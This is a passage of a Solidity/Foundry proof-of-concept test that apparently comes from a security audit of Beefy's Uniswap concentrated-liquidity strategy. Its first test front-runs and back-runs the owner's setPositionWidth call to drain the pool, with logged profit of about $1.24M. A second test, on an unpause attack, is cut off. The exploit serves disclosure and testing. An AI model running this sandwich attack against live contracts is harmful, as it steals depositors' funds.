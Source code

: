```solidity
    // forge test --match-path test/forge/ConcLiqTests/ConcLiqWBTCUSDC.t.sol --fork-url https://rpc.ankr.com/eth --fork-block-number 19410822 -vvv
    function test_AttackerDrainsProtocolViaSetPositionWidth() public {
        // user deposits and beefy sets up its LP position
        uint256 BEEFY_INIT_WBTC = 10e8;
        uint256 BEEFY_INIT_USDC = 600000e6;
        deposit(user, true, BEEFY_INIT_WBTC, BEEFY_INIT_USDC);

        (uint256 beefyBeforeWBTCBal, uint256 beefyBeforeUSDCBal) = strategy.balances();

        // record beefy WBTC & USDC amounts before attack
        console.log("%s : %d", "LP WBTC Before Attack", beefyBeforeWBTCBal); // 999999998
        console.log("%s : %d", "LP USDC Before Attack", beefyBeforeUSDCBal); // 599999999999
        console.log();

        // attacker front-runs owner call to `setPositionWidth` using
        // a large amount of USDC to buy all the WBTC. This:
        // 1) results in Beefy LP having 0 WBTC and lots of USDC
        // 2) massively pushes up the price of WBTC
        //
        // Attacker has forced Beefy to sell WBTC "low"
        uint256 ATTACKER_USDC = 100000000e6;
        trade(attacker, true, false, ATTACKER_USDC);

        // owner calls `StrategyPassiveManagerUniswap::setPositionWidth`
        // This is the transaction that the attacker sandwiches. The reason is that
        // `setPositionWidth` makes Beefy change its LP position. This will
        // cause Beefy to deploy its USDC at the now much higher price range
        strategy.setPositionWidth(width);

        // attacker back-runs the sandwiched transaction to sell their WBTC
        // to Beefy who has deployed their USDC at the inflated price range,
        // and also sells the rest of their WBTC position to the remaining LPs
        // unwinding the front-run transaction
        //
        // Attacker has forced Beefy to buy WBTC "high"
        trade(attacker, false, true, IERC20(token0).balanceOf(attacker));

        // record beefy WBTC & USDC amounts after attack
        (uint256 beefyAfterWBTCBal, uint256 beefyAfterUSDCBal) = strategy.balances();

        // beefy has been almost completely drained of WBTC & USDC
        console.log("%s  : %d", "LP WBTC After Attack", beefyAfterWBTCBal); // 2
        console.log("%s  : %d", "LP USDC After Attack", beefyAfterUSDCBal); // 0
        console.log();

        uint256 attackerUsdcBal = IERC20(token1).balanceOf(attacker);
        console.log("%s  : %d", "Attacker USDC profit", attackerUsdcBal-ATTACKER_USDC);

        // attacker original USDC: 100000000 000000
        // attacker now      USDC: 101244330 209974
        // attacker profit = $1,244,330 USDC
    }

    function test_AttackerDrainsProtocolViaUnpause() public {
        // user deposits and beefy sets up its LP position
        uint256 BEEFY_INIT_WBTC = 0;
        uint256 BEEFY_INIT_USDC = 600000e6;
        deposit(user, true, BEEFY_INIT_WBTC, BEEFY_INIT_USDC);

        // owner pauses contract
        strategy.panic(0, 0);

```